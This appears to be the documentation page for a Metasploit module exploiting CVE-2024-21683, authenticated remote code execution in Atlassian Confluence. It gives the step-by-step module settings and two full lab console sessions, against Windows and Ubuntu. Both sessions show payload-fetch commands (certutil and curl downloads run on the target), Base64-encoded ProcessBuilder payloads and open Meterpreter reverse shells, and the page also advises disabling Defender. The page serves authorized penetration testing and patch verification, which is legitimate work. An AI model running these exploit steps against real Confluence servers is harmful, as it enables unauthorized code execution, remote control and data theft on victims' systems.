 ## Vulnerable Application
This module exploits an authenticated administrator-level vulnerability in Atlassian Confluence,
tracked as CVE-2024-21683. The vulnerability exists due to the Rhino script engine parser evaluating
tainted data from uploaded text files. This facilitates arbitrary code execution. This exploit will
authenticate, validate user privileges, extract the underlying host OS information, then trigger
remote code execution. All versions of Confluence prior to 7.17 are affected, as are many versions
up to 8.9.0.

## Testing
Download and install a [vulnerable version of Atlassian Confluence](https://www.atlassian.com/software/confluence/download-archives).
By default, Confluence serves an HTTP service on TCP port 8090. This module was tested against four Confluence installs:
Linux and Windows Confluence hosts running two different versions, 8.9.0 and 7.20.2. The target host operating systems
were Ubuntu 22.04 and Server 2022.

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/atlassian_confluence_rce_cve_2024_21683`
3. `set RHOST 192.168.156.131`
4. `check`
5. `set LHOST 192.168.156.129`
6. `set ADMIN_USER admin`
7. `set ADMIN_PASS Password123!`
8. For Windows targets, `set FETCH_COMMAND CERTUTIL` is recommended. For Linux targets, `set FETCH_COMMAND CURL` is recommended.
9. `exploit`

## Options

### ADMIN_USER

The known Confluence administrator username.

### ADMIN_PASS

The known Confluence administrator password.

## Scenarios

### Windows Server 2022 (10.0 Build 20348)
```
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set payload cmd/windows/http/x64/meterpreter/reverse_tcp
payload => cmd/windows/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_USER admin
ADMIN_USER => admin
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_PASS Password123!
ADMIN_PASS => Password123!
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set LHOST 192.168.156.129
LHOST => 192.168.156.129
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_COMMAND CERTUTIL 
FETCH_COMMAND => CERTUTIL
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_SRVHOST 192.168.156.129
FETCH_SRVHOST => 192.168.156.129
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set RHOSTS 192.168.156.131
RHOSTS => 192.168.156.131
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > check
[*] 192.168.156.131:8090 - The target appears to be vulnerable. Exploitable version of Confluence: 7.20.2
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > run

[*] Command to run on remote host: certutil -urlcache -f http://192.168.156.129:8080/h2Wbt3lK1eTiVRc3SNDL1w %TEMP%\iYgswSHqZU.exe & start /B %TEMP%\iYgswSHqZU.exe
[*] Fetch handler listening on 192.168.156.129:8080
[*] HTTP server started
[*] Adding resource /h2Wbt3lK1eTiVRc3SNDL1w
[*] Started reverse TCP handler on 192.168.156.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable version of Confluence: 7.20.2
[*] Successfully authenticated to Confluence
[*] The provided user is an administrator
[*] Secure Administrator Sessions enabled - elevating session
[*] Grabbed elevation CSRF token: a8fc89e32b0baa5f6d72247e614e37bdf11c33c4
[*] Administrator session has been elevated
[*] Target returned the operating system string 'Windows Server 2022 10.0'
[*] Grabbed macro CSRF token: de21269d58ebd338bed3a2bd15a4c54fe321785b
[*] Crafted ProcessBuilder payload string: new java.lang.ProcessBuilder("cmd.exe", "/c", new java.lang.String(java.util.Base64.getDecoder().decode('Y2VydHV0aWwgLXVybGNhY2hlIC1mIGh0dHA6Ly8xOTIuMTY4LjE1Ni4xMjk6ODA4MC9oMldidDNsSzFlVGlWUmMzU05ETDF3ICVURU1QJVxpWWdzd1NIcVpVLmV4ZSAmIHN0YXJ0IC9CICVURU1QJVxpWWdzd1NIcVpVLmV4ZQ=='))).start()
[*] Sending POST request to trigger code execution
[*] Client 192.168.156.131 requested /h2Wbt3lK1eTiVRc3SNDL1w
[*] Sending payload to 192.168.156.131 (Microsoft-CryptoAPI/10.0)
[*] Client 192.168.156.131 requested /h2Wbt3lK1eTiVRc3SNDL1w
[*] Sending payload to 192.168.156.131 (CertUtil URL Agent)
[*] Sending stage (201798 bytes) to 192.168.156.131
[*] Meterpreter session 1 opened (192.168.156.129:4444 -> 192.168.156.131:51064) at 2024-07-09 10:19:08 -0500

meterpreter > getuid
Server username: SRV01\Administrator
meterpreter > pwd
C:\Program Files\Atlassian\Confluence\bin
meterpreter > sysinfo
Computer        : SRV01
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

### Ubuntu 22.04 (Linux 6.5.0-41-generic)
```
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_USER admin
ADMIN_USER => admin
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set ADMIN_PASS Password123!
ADMIN_PASS => Password123!
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set RHOSTS 192.168.156.133
RHOSTS => 192.168.156.133
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > check
[*] 192.168.156.133:8090 - The target appears to be vulnerable. Exploitable version of Confluence: 8.9.0
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set FETCH_COMMAND CURL
FETCH_COMMAND => CURL
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/atlassian_confluence_rce_cve_2024_21683) > run

[*] Command to run on remote host: curl -so ./UyvwIjHwXcB http://192.168.156.129:8080/zR2OIDxwf8sUzl-Aq0rIXg; chmod +x ./UyvwIjHwXcB; ./UyvwIjHwXcB &
[*] Fetch handler listening on 192.168.156.129:8080
[*] HTTP server started
[*] Adding resource /zR2OIDxwf8sUzl-Aq0rIXg
[*] Started reverse TCP handler on 192.168.156.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable version of Confluence: 8.9.0
[*] Successfully authenticated to Confluence
[*] The provided user is an administrator
[*] Target returned the operating system string 'Linux 6.5.0-41-generic'
[*] Grabbed macro CSRF token: 671809d94b9274550326b77f1618381188952a53
[*] Crafted ProcessBuilder payload string: new java.lang.ProcessBuilder("/bin/sh", "-c", new java.lang.String(java.util.Base64.getDecoder().decode('Y3VybCAtc28gLi9VeXZ3SWpId1hjQiBodHRwOi8vMTkyLjE2OC4xNTYuMTI5OjgwODAvelIyT0lEeHdmOHNVemwtQXEwcklYZzsgY2htb2QgK3ggLi9VeXZ3SWpId1hjQjsgLi9VeXZ3SWpId1hjQiAm'))).start()
[*] Sending POST request to trigger code execution
[*] Client 192.168.156.133 requested /zR2OIDxwf8sUzl-Aq0rIXg
[*] Sending payload to 192.168.156.133 (curl/7.81.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.156.133
[*] Meterpreter session 1 opened (192.168.156.129:4444 -> 192.168.156.133:60308) at 2024-07-09 10:40:32 -0500

meterpreter > getuid
Server username: confluence
meterpreter > pwd
/atlassian-confluence-8.9.0
meterpreter > sysinfo
Computer     : 192.168.156.133
OS           : Ubuntu 22.04 (Linux 6.5.0-41-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
